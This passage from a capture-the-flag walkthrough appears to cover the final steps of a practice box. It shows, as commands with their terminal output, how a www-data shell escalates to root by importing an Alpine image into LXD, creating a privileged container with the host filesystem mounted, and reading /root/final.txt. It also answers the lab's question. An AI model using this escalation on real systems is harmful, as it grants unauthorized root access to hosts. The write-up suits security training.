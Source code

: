 14. The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

```
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
<-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
Error: open alpine-v3.12-x86_64-20200623_1255.tar.gz: no such file or directory
www-data@ubuntu:/var/www$ ls
ls
alpine-v3.12-x86_64-20201008_2055.tar.gz  html
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/var/www$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/var/www$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/var/www$ lxc start joker
lxc start joker
www-data@ubuntu:/var/www$ lxc exec joker /bin/sh
lxc exec joker /bin/sh
```

15. What is the name of the file in the /root directory?

```
~ # ^[[26;5Rcat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
~ # ^[[26;5R
```
